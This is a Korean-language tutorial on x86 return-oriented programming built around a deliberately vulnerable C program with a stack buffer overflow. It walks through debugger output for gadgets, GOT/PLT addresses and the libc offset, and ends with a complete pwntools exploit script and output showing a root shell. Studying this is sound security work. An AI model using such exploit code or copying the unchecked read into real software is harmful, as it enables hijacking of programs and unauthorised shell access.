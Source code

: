 # **x86 Return Oriented Programming**

NXbit와 Code signing과 같은 보안 기능이 있는 상태에서 코드 실행 가능하게 해주는 기술이다.  
RTL + Gadgets(해당 프로그램이 사용하는 메모리에 있는 기계어)  
Gadgets은 일반적으로 ret로 끝나며, 기존 프로그램 또는 공유 라이브러리 코드 내 서브 루틴에 존재.

## **Proof of Concept**

```c
// Vuln Code
// gcc -m32 -fno-stack-protector -o rop rop.c
#include <stdio.h>
#include <unistd.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 256);
}
 
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

* 256자를 Read하므로 Buffer Overflow가 발생한다.

### **Exploit Mehtod**
1. read 함수를 통해 "/bin/sh" 명령을 쓰기 가능한 메모리에 저장
1. write 함수를 이용해 read 함수의 .got 영역에 저장된 값 출력
1. read 함수를 이용해 read 함수의 .got 영역에 system 함수 주소를 덮어씀
1. read 함수 호출 - read .got 영역에 system 주소 저장되어 있기 떄문에 system 함수가 호출

```c
read(0,writableArea,len(str(binsh)))
write(1,read_got,len(str(read_got)))
read(0,read_got,len(str(read_got)))
system(writableArea)
```

### **Writable Area**

```
gdb-peda$ shell cat /proc/26912/maps
08048000-08049000 r-xp 00000000 08:01 131514     /home/pwner/test/rop
08049000-0804a000 r--p 00000000 08:01 131514     /home/pwner/test/rop
0804a000-0804b000 rw-p 00001000 08:01 131514     /home/pwner/test/rop  <--- 변하지 않는 writable 영역
b7d43000-b7d44000 rw-p 00000000 00:00 0 
b7d44000-b7ef4000 r-xp 00000000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef4000-b7ef6000 r--p 001af000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef6000-b7ef7000 rw-p 001b1000 08:01 393587     /lib/i386-linux-gnu/libc-2.23.so
b7ef7000-b7efa000 rw-p 00000000 00:00 0 
b7f10000-b7f11000 rw-p 00000000 00:00 0 
b7f11000-b7f14000 r--p 00000000 00:00 0          [vvar]
b7f14000-b7f16000 r-xp 00000000 00:00 0          [vdso]
b7f16000-b7f39000 r-xp 00000000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f39000-b7f3a000 r--p 00022000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
b7f3a000-b7f3b000 rw-p 00023000 08:01 393559     /lib/i386-linux-gnu/ld-2.23.so
bfae5000-bfb06000 rw-p 00000000 00:00 0          [stack]
```

### **Sections**

```
gdb-peda$ shell objdump -h rop

rop:     file format elf32-i386

Sections:
Idx Name          Size      VMA       LMA       File off  Algn
  0 .interp       00000013  08048154  08048154  00000154  2**0
                  CONTENTS, ALLOC, LOAD, READONLY, DATA
                          >> snip... <<
                  CONTENTS, ALLOC, LOAD, DATA
 22 .got          00000004  08049ffc  08049ffc  00000ffc  2**2  
                  CONTENTS, ALLOC, LOAD, DATA
 23 .got.plt      00000018  0804a000  0804a000  00001000  2**2 <-- .got.plt
                  CONTENTS, ALLOC, LOAD, DATA
 24 .data         00000008  0804a018  0804a018  00001018  2**2 <-- .data
                  CONTENTS, ALLOC, LOAD, DATA
 25 .bss          00000004  0804a020  0804a020  00001020  2**0 <-- .bss
                  ALLOC
 26 .comment      00000035  00000000  00000000  00001020  2**0
                  CONTENTS, READONLY
```

### **Gadgets**

```
gdb-peda$ ropgadget
ret = 0x80482d2
popret = 0x80482e9
pop2ret = 0x80484ea
pop3ret = 0x80484e9
pop4ret = 0x80484e8
addesp_12 = 0x80482e6
addesp_16 = 0x80483a5
```

### **Symbols**

```
gdb-peda$ elfsymbol read
Detail symbol info
read@reloc = 0
read@plt = 0x8048300
read@got = 0x804a00c

gdb-peda$ elfsymbol write
Detail symbol info
write@reloc = 0x10
write@plt = 0x8048320
write@got = 0x804a014
```

### **offset**

```
gdb-peda$ p read
$1 = {<text variable, no debug info>} 0xb7e90b00 <read>

gdb-peda$ p system
$3 = {<text variable, no debug info>} 0xb7df5da0 <__libc_system>

gdb-peda$ p 0xb7e90b00-0xb7df5da0
$4 = 0x9ad60
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
from struct import *

binsh = "/bin/sh"
binary = ELF("./rop")
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
writableArea = 0x0804a050
read_got = binary.got['read']
read_plt = binary.plt['read']
read_system_offset = libc.symbols['read'] - libc.symbols['system']

rop = ROP(binary)

rop.read(0,writableArea,len(str(binsh)))
rop.write(1,read_got,4)
rop.read(0,read_got,len(str(read_got)))
rop.raw(read_plt)
rop.raw(0xaaaaaaaa)
rop.raw(writableArea)

payload = "A"*62 + str(rop)

p = process('./rop')
context.log_level = 'debug'

print(p.recvn(10))
p.send(payload+'\n')
p.send(binsh)
read = u32(p.recvn(4))
system_addr = read - read_system_offset

rop = ROP(binary)
rop.raw(system_addr)
p.send(str(rop))

p.interactive()
```

## **Exploit**
```
[DEBUG] Received 0x27 bytes:
    'uid=0(root) gid=0(root) groups=0(root)n'
uid=0(root) gid=0(root) groups=0(root)
$ pwd
[DEBUG] Sent 0x4 bytes:
    'pwdn'
[DEBUG] Received 0x11 bytes:
    '/home/pwner/testn'
/home/pwner/test
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.ROP%28Return+Oriented+Programming%29-x86>

